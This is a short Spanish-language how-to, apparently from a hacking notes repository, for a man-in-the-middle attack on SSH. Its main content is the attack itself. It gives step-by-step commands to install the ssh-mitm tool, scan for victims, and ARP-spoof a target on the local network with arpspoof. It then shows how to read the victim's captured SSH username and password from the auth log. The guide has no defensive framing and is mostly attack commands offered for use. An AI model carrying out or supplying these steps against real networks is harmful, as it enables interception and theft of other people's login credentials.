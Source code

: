 # Hacking SSH (Man-in-the Middle)

### Instalación

1. ```git clone https://github.com/jtesta/ssh-mitm.git```
2. En el directorio **ssh-mitm** ```./install.sh```

### Ejecución

1. Luego (con permisos de root y en el directorio donde clonamos el repositorio), ejecutamos: ```./start.sh```
2. ```python ./JoesAwesomeSSHMITMVictimFinder.py --interface eth0 --block-size 255```
3. En otra terminal colocamos el comando ```arpspoof -r -t 192.168.1.1 192.168.1.4```
4. Abrimos una tercera terminal y ejecutamos:  ```tail -f  /var/log/auth.log ```
5. Ahora, cuando la victima intente conectarse por **ssh**, podremos ver en los logs el usuario y contraseña:

<img src="https://media.discordapp.net/attachments/734581261833863212/769950376652570634/unknown.png" alt="https://media.discordapp.net/attachments/734581261833863212/769950376652570634/unknown.png" style="zoom:35%;" />

## Extras

* Para correr el archivo ```JoesAwesome...``` correr el siguiente comando: ```apt-get install python3-netaddr python3-netifaces```
* Para poder instalar (```./install.sh ``` ) necesitamos correr, ```export LANG=en_US.utf-8``` antes.
* Para poder usar ```arpspoof``` es necesario instalar ```apt-get install dsniff ```

## Referencias

* https://www.riccardoancarani.it/man-in-the-middle-ssh-yes-please/
* https://miloserdov.org/?p=3699